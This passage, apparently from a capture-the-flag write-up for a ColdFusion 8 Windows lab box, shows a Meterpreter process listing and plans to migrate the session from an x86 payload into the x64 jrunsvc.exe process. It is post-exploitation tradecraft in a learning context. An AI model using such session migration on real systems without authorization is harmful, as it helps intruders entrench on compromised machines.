 So we need to migrate to a x64 process. We can do that by looking at the running process:
```
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User          Path
 ---   ----  ----                     ----  -------  ----          ----
 0     0     [System Process]                                      
 4     0     System                                                
 236   4     smss.exe                                              
 328   308   csrss.exe                                             
 340   480   svchost.exe                                           
 372   308   wininit.exe                                           
 392   380   csrss.exe                                             
 396   480   spoolsv.exe                                           
 436   380   winlogon.exe                                          
 480   372   services.exe                                          
 492   372   lsass.exe                                             
 500   372   lsm.exe                                               
 596   3528  cmd.exe                  x86   0        ARCTIC\tolis  C:\Windows\SysWOW64\cmd.exe
 604   480   svchost.exe                                           
 676   480   svchost.exe                                           
 752   436   LogonUI.exe                                           
 760   480   svchost.exe                                           
 800   480   svchost.exe                                           
 848   480   svchost.exe                                           
 904   480   svchost.exe                                           
 944   480   svchost.exe                                           
 1040  480   CF8DotNetsvc.exe                                      
 1092  1040  JNBDotNetSide.exe                                     
 1100  328   conhost.exe                                           
 1148  480   jrunsvc.exe              x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrunsvc.exe
 1176  1148  jrun.exe                 x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrun.exe
 1184  480   swagent.exe                                           
 1192  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 1228  480   swstrtr.exe                                           
 1236  1228  swsoc.exe                                             
 1244  328   conhost.exe                                           
 1332  480   k2admin.exe                                           
 1432  604   WmiPrvSE.exe                                          
 1456  480   svchost.exe                                           
 1488  480   VGAuthService.exe                                     
 1752  480   vmtoolsd.exe                                          
 1776  480   ManagementAgentHost.exe                               
 2208  1332  k2server.exe                                          
 2216  328   conhost.exe                                           
 2260  1332  k2index.exe                                           
 2440  328   conhost.exe                                           
 2956  480   svchost.exe                                           
 2976  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 3032  480   dllhost.exe                                           
 3192  480   msdtc.exe                                             
 3288  1176  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 3444  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 3528  3288  meterpreter.exe          x86   0        ARCTIC\tolis  C:\Users\tolis\Desktop\meterpreter.exe
 3836  480   sppsvc.exe
 ```
 We can migrate to ```jrunsvc.exe```
 